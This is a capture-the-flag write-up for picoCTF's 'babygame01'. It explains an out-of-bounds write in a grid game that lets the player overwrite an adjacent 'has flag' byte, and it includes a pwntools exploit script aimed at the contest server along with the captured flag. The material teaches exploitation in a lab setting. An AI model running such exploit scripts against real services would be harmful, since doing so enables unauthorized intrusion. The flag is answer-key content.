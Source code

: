 # babygame01

## Challenge

The challenge is a game with grid that the player can move around in.

The initial state of the game is as follows:

```
Player position: 4 4
End tile position: 29 89
Player has flag: 0
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
....@.....................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
.........................................................................................X
```

We can move around by sending 'w', 'a', 's', and 'd'.

If we reach the 'X' in the bottom right, the game prints "You win!" and exits.

## Solution

By reverse engineering the game binary, we can find two other secret commands.

'l' will change our player character to the next character we send.
For example, sending 'l' followed by 'A' will cause our character to appear as an 'A'.

'p' will automatically move our character to the 'X' in the bottom right of the grid, ending the game.

We can also see the condition for printing the flag.
The flag will be printed when we reach the 'X' if the value labeled by "Player has flag" is not 0.

The player struct contains two integers, used to store the player coordinates, and a byte, used to store the "Player has flag" value.

The grid is a 2-dimensional byte array which stores the characters to be printed.

When the player moves, the previous position is set to a '.' and the new position is set to our player character, which is a '@' by default.

The vulnerability is that there are no bounds checks on where we can move.
We move out of bounds of the grid, allowing us to write our player character out of bounds.
When we move away, our previous location is still replaced with a '.'.

The player struct is located next to the start of the grid.
If we move our player to the top left of the grid, then 4 steps to the left, we will occupy the same space as the "Player has flag" value.
We can then use the 'p' command to automatically move our player to the 'X'.
The "Player has flag" variable will be set to a '.', which will pass the non-zero check and print the flag once we reach the 'X'.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host saturn.picoctf.net --port 56693 game
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('game')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'saturn.picoctf.net'
port = int(args.PORT or 56693)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)

io = start()

x = 4
y = 4

while y > 0:
    io.send(b'w')
    y -= 1

while x > -4:
    io.send(b'a')
    x -= 1

io.sendline(b'p')

io.interactive()
```

## Flag

```
picoCTF{gamer_m0d3_enabled_0a880baf}
```

